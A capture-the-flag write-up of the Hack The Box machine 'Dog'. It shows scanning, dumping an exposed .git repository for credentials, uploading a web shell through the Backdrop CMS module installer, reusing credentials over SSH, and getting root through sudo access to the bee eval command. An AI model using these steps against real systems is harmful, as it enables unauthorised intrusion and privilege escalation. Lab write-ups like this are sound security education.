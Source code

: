 ```yaml
---
clayout: ctf
title: Dog
date: 2025-05-13
image: /ctf/hack-the-box/machines/dog/info-card.png
type: Hack The Box

ctf:
    - name: Dog
      link: https://app.hackthebox.com/machines/651
      thumbnail: /ctf/hack-the-box/machines/dog/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/651  
          thumbnail: /ctf/hack-the-box/machines/dog/pwned.png
---
```


# Enumeration and Initial Access

## Network scanning

An initial Nmap scan was conducted to identify open ports and running services:

```bash
nmap -sV -sC -oN nmap/initial.nmap 10.10.10.10
```

Scan Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 972ad22c898ad3ed4dac00d21e8749a7 (RSA)
|   256 277c3ceb0f26e962590f0fb138c9ae2b (ECDSA)
|_  256 9388474c69af7216094cba771e3b3beb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
```

**Observations:**

- SSH (22/tcp) is running OpenSSH 8.2p1.
- A web server (Apache 2.4.41) is running on port 80 with a robots.txt file disallowing access to several sensitive directories.

## Web enumeration

Navigating to the target IP address (10.10.11.58) reveals a Backdrop CMS-powered website.

![Dog - Backdrop CMS](/ctf/hack-the-box/machines/dog/backdrop-cms.png)

### Directory Bruteforcing – Dirsearch

A directory brute-force was performed using Dirsearch:

```bash
dirsearch -u http://10.10.11.58/ -o dirsearch/initial.txt
```

![Dog - dirsearch](/ctf/hack-the-box/machines/dog/dirsearch.png)

### Git Repository Disclosure

The presence of a `.git` directory was discovered, and its contents were extracted using [git-dumper](https://github.com/arthaud/git-dumper):

```bash
git-dumper http://10.10.11.58/.git ./git-dump/
```

Upon reviewing the extracted repository, a sensitive configuration file `settings.php` was located. It contained database connection credentials:

```php
$database = 'mysql://root:BackDrop...@127.0.0.1/backdrop';
```

Additionally, a user-related email address was identified:

```bash
grep -r "@dog.htb"
# ...
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

### CMS Admin Panel Access

Using the credentials `tiffany:BackDropJ2024DS2024`, access was gained to the Backdrop CMS admin panel.

![Dog - Backdrop CMS admin](/ctf/hack-the-box/machines/dog/backdrop-cms-admin.png)

### Exploitation of Backdrop CMS

Backdrop CMS version 1.21.0 was identified, for which a known exploit exists ([Exploit-DB #52021]((https://www.exploit-db.com/exploits/52021))).

![Dog - Backdrop CMS exploit](/ctf/hack-the-box/machines/dog/backdrop-exploit.png)

A web shell was packaged into a `.tar` archive and uploaded via the module installer at: `http://10.10.11.58/?q=admin/installer/manual`.

![Dog - Backdrop CMS upload](/ctf/hack-the-box/machines/dog/backdrop-upload.png)

Once uploaded, the shell was accessible at: `http://10.10.11.58/modules/shell/shell.php`.

![Dog - Backdrop CMS shell](/ctf/hack-the-box/machines/dog/backdrop-shell.png)

### Gaining Shell Access

Reviewing `/etc/passwd` revealed the presence of multiple users, including `johncusack`.

![Dog - Backdrop CMS etc passwd](/ctf/hack-the-box/machines/dog/backdrop-etc-passwd.png)

Reusing the earlier credentials, SSH access was gained:

```bash
ssh johncusack@10.10.11.58
Password: BackDrop...

johncusack@dog:~$ id
uid=1001(johncusack) gid=1001(johncusack) groups=1001(johncusack)
```

The user flag was retrieved from `/home/johncusack/user.txt`.

# Privilege Escalation

Running `sudo -l` revealed that the `johncusack` user could execute `/usr/local/bin/bee` with elevated privileges:

```bash
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

## Abuse of bee Utility

[Bee](https://github.com/backdrop-contrib/bee) is a command-line tool for Backdrop CMS administration. According to the documentation, it supports an `eval` function capable of executing arbitrary PHP code.

![Dog - Bee eval](/ctf/hack-the-box/machines/dog/bee-eval.png)

To escalate privileges, the `eval` option was used to run a system command as root:

```bash
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee ev "system('id')"
uid=0(root) gid=0(root) groups=0(root)
```

The root flag was retrieved from `/root/root.txt`

